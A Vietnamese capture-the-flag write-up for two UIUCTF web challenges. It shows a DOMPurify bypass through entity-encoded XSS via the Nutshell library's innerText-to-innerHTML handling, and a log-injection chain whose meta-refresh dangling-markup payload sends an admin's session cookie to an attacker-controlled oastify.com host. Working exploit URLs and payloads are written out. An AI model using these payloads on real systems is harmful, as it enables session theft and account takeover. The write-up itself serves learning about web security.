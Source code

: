 ## Peanut XSS
Như cái tên và description, ta cần tìm cách khai thác được XSS và lấy được cookie của user

Bài này dựa vào những dòng inline script đầu tiên ta nhận thấy input duy nhất được đưa vào hàm `DOMPurify.sanitize`, việc đầu tiên nghĩ đến sẽ là tìm cách bypass DOMPurify, tuy nhiên DOMPurify sử dụng cơ chế không dễ ăn tí nào, bằng cách dựa vào chính DOM tree để loại bỏ các tag và attribute không mong muốn.

Nhìn vào quá khứ đã từng có một số lỗ hổng như MXSS khiến cho việc bypass DOMPurify trở nên khả thi, vậy ta sẽ tìm version hiện tại của nó trước. Bằng cách vào chrome devtool ta thấy được version là 2.3.6, có vẻ không có cve đã biết nào, nhưng version cũng không phải latest, không lẽ là 0day?

![](https://hackmd.io/_uploads/BkRgzUgYh.png)

Nhìn qua sẽ không thấy lib DOMPurify được load vào ở giao diện chính, điều tra vào thư viện Nutshell sẽ thấy minified  DOMPurify script được kèm ở trong thư viện này luôn, khả năng ta sẽ dựa vào thư viện này để bypass qua DOMPurify

Sau một thời gian audit mình thấy dòng 
```javascript
linkText.innerHTML = ex.innerText.slice(ex.innerText.indexOf(':')+1);
```
`linktext` lát sau được đưa vào DOM tree ở dòng
```javascript
ex.appendChild(linkText);
```

Context của đoạn code này là thư viện Nutshell sẽ tìm tất cả các tag `a`, check xem nếu trong innerText có vị trí đầu tiên là `:` thì nó sẽ trở thành một `expandable`, đại khái là khi click vô cái tag `a` đó thì nó sẽ drop down xuống một cái bong bóng chứa nội dung abc gì đó

### innerText and innerHTML

Nhắc lại cách hoạt động của DOMPurify, dựa vào DOM tree để loại các node và attribute không mong muốn, đối với một cặp thẻ `<p></p>` thì có thể gọi là node p, với một dòng text đơn thuần thì sẽ được gọi là text node, khác biệt ở đâu?

Ví dụ ta có data `<a><h1>aaaa</h1></a>`, nếu gọi đến innerHTML của thẻ `a` thì data thu được sẽ là `<h1>aaaa</h1>`, nếu gọi đến innerText thì kết quả thu được là `aaaa`

Nhìn lại đoạn code gán `linkText.innerHTML` phía trên, ta có thể thấy rằng nếu ta có thể chèn các tag html như tag script vào innerText thì lát nữa khi được gán cho innerHTMl của linkText và insert vào DOM tree thì ta sẽ bypass qua được DOMPurify.

Vấn đề là nếu ta dùng một payload dạng `<h1><script></script></h1>` thì script vẫn bị nhận là 1 thẻ html và lát nữa vào DOMPurify sẽ bị lọc, vậy làm sao để đoạn payload của ta được xem là 1 text node? Ta sẽ encode nó thành html entity, lát nữa khi đi qua innerText nó sẽ decode các html entity về lại plain text 

```u!
https://peanut-xss-web.chal.uiuc.tf/?nutshell=%3Ca+href=%27x%27%3E:a%3Ch1%3E%26%2360%26%23115%26%2399%26%23114%26%23105%26%23112%26%23116%26%2362%26%2397%26%23108%26%23101%26%23114%26%23116%26%2340%26%2341%26%2360%26%2347%26%23115%26%2399%26%23114%26%23105%26%23112%26%23116%26%2362%3C/h1%3E%3C/a%3E
```

Phải url encode vì html entity có chứa ký tự `&`, sẽ bị nhầm thành url parameter delimiter

Tuy nhiên nó vẫn không chạy, dù f12 đã thấy có thẻ script được chèn vào DOM, vấn đề ở đâu nhỉ?
![](https://hackmd.io/_uploads/ryL_ULlKh.png)

Đó là vì sau khi DOM được load lần đầu tiên, mọi hành động insert vào sau này sẽ không làm reload lại DOM, dẫn đến content bên trong thẻ script sẽ không chạy. Vậy thì cứ dùng payload img onerror kinh điển thôi :v 

```a!
https://peanut-xss-web.chal.uiuc.tf/?nutshell=%3Ca+href=%27x%27%3E:a%3Ch1%3E%26%2360%26%23105%26%23109%26%23103%26%2332%26%23115%26%23114%26%2399%26%2361%26%23120%26%2332%26%23111%26%23110%26%23101%26%23114%26%23114%26%23111%26%23114%26%2361%26%2397%26%23108%26%23101%26%23114%26%23116%26%2340%26%2334%26%2349%26%2334%26%2341%26%2332%26%2347%26%2362%3C/h1%3E%3C/a%3E
```

![](https://hackmd.io/_uploads/HJ3fYUgth.png)

XSS được rồi thì đoạn viết script lấy cookie sẽ đơn giản thôi

## Adminplz
Bài này là một bài java, sử dụng framework spring, flag nằm ở file flag.html trong thư mục root.

![](https://hackmd.io/_uploads/BJ9spIeF3.png)

Nhìn vào code ta sẽ thấy tại route `/admin`, input của ta lấy từ param `view` sẽ được đưa vào hàm getResource, mục đích của hàm này là tìm và trả về một file và định dạng input có thể truyền vào cũng khá đa dạng, mình sẽ tóm tắt như sau:
- Nếu input có `classpath:` đằng trước thì spring sẽ tìm file này trong các classpath
- Nếu input có `http://` hoặc `https://` đằng trước thì sẽ gửi HTTP request tới resource để fetch nội dung về
- Nếu input có prefix là `file://` thì sẽ fetch file từ file system

Vậy đây có thể xem như một lỗ hổng SSRF, ta có thể đọc mọi file trên server và làm cho nó hiện thị, nhưng vấn đề là chỉ có admin đọc được nội dung này, và file flag cũng chỉ admin đọc được. Vậy ta có thể liên kết 2 việc này lại và đoán rằng có vẻ đây lại là 1 bài client side khác, tuy nhiên CSP lại rất strict và có lẽ ta sẽ không thể bypass qua được

Để ý một chi tiết đó là mọi truy cập authenticated nếu request đến với `view` chứa từ `flag` đều được ghi log lại, và log nằm ở `/var/log/adminplz/latest.log`, ta thấy định dạng được ghi vào gồm có username và sessionid (cookie) của user đó. Kết hợp với dữ kiện username mà ta nhập vào không được sanitize mà ghi thẳng vào log, ta sẽ có gì?

Ta có thể lợi dụng thẻ meta redirect (bypass qua CSP), kết hợp với dangling markup để điều hướng admin đến burp collaborator (hoặc 1 server nào đó mà ta control) để lấy cookie và login vào để đọc flag

Flow sẽ như sau:
- Gửi request với username là `<meta http-equiv="refresh" content="2; url=http://a4fxg7twfvweqw27hr6f6imscjia62ur.oastify.com/?a=` rồi truy cập vào `/admin?view=flag` để payload của ta được ghi vào log
- Đưa url của endpoint `/admin?view=flag"/>` cho admin truy cập để ghi cookie của admin vào log và đóng double quote của dangling markup lại
- Cuối cùng là gửi cho admin endpoint`/admin?view=file:///var/log/adminplz/latest.log` để admin đọc file này và redirect đến server của ta

Khoảng chờ giữa 2 lần con bot admin truy cập sẽ là 5 phút, vì con bot sau khi access sẽ bắt chờ 5 phút

![](https://hackmd.io/_uploads/B1Pygvgt2.png)
